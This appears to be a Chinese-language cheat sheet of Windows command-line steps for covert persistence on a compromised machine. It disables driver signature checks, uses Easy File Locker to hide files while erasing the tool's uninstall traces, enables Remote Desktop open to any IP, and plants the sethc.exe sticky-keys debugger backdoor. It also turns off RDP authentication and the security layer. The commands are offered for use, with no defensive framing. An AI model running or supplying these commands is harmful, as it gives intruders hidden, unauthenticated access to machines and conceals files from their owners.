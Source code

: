  ！！ 禁止强制签名，以管理员的身份运行cmd 执行以下命令  
 
 Win2012 Can: 

bcdedit.exe /set nointegritychecks on  

\\Easy File Locker  （！！！注意：只需要赋予Access权限，其他都不需要，切记切记）


删除1.   REG delete "HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\Easy file Locker" /f

删除2：安装目录

删除3： C:\Users\master\AppData\Roaming\Microsoft\Windows\Start Menu\Programs   （快捷方式）


C:/Users/Public/Documents/EFL/rule.ini  隐藏的定义在此
Easy File Locker添加需要隐藏的文件，只赋予access权限，即可实现文件的隐藏。


cmd.exe /c reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f 


cmd.exe /c wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1


cmd.exe /c netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any


1.reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f   \\配置端口为3389


2.wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1  （open terminal, 0 close)


3. netsh advfirewall firewall add rule name="RemoteDesktop_Allow" dir=in protocol=TCP action=allow localport=3389 remoteip=any


4.netsh advfirewall firewall show rule name="RemoteDesktop_Allow"  


5. netsh advfirewall firewall del rule name="RemoteDesktop_Allow"


reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "\"c:\windows\system32\cmd.exe\" /z" /f

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0 /f




